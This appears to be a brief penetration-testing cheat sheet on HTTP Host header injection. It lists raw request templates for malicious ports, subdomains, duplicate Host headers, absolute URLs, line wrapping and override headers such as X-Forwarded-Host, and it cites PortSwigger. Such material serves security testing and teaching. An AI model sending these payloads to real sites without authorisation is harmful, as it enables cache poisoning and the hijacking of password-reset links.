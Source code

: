 - [Host_Header_Injection](#Host_Header_Injection)

#Host_Header_Injection

#### Malicious port
```
GET /example HTTP/1.1
Host: vulnerable-website.com:bad-stuff-here
```

#### Malicious subdomain
```
GET /example HTTP/1.1
Host: hacked-subdomain.vulnerable-website.com
```

#### Duplicate Host headers
```
GET /example HTTP/1.1
Host: vulnerable-website.com
Host: bad-stuff-here
```

#### Absolute URL
```
GET https://vulnerable-website.com/ HTTP/1.1
Host: bad-stuff-here
```

#### Line wrapping
```
GET /example HTTP/1.1
 Host: bad-stuff-here
Host: vulnerable-website.com
```

#### Inject headers
```
GET /example HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-Host: bad-stuff-here

X-Host
X-Forwarded-Server
X-HTTP-Host-Override
Forwarded
```

References
- https://portswigger.net/web-security/host-header
